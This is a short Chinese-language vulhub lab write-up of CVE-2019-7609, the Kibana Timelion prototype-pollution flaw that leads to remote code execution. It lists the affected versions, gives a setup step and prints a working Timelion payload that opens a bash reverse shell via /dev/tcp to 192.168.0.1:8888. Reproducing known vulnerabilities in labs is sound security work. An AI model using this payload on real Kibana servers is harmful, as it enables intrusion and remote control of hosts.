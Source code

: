# Kibana原型污染导致远程执行代码（CVE-2019-7609）

###### by ADummy

### 0x00利用路线

​			

### 0x01漏洞介绍

​			Kibana是Elasticsearch的开源数据可视化仪表板。

5.6.15和6.6.1之前的Kibana版本在Timelion可视化工具中包含任意代码执行缺陷。有权访问Timelion应用程序的攻击者可以发送将尝试执行javascript代码的请求。这可能导致攻击者在主机系统上以Kibana进程的权限执行任意命令。

影响版本

```
Kibana <= 5.6.15
Kibana <= 6.6.1
```

### 0x02漏洞复现

在设置环境之前，您需要`vm.max_map_count`在主机服务器（而不是在Docker容器中）更改为大于262144：

```
sysctl -w vm.max_map_count=262144
```

启动环境后，Kibana正在监听`http://your-ip:5106`。原型污染发生在时间轴可视化器中，在此处填写以下有效负载：

```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("/bin/bash -i >& /dev/tcp/192.168.0.1/8888 0>&1");process.exit()//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

![Kibana_RCE_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Kibana_RCE_1.jpg)



![Kibana_RCE_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Kibana_RCE_2.jpg)











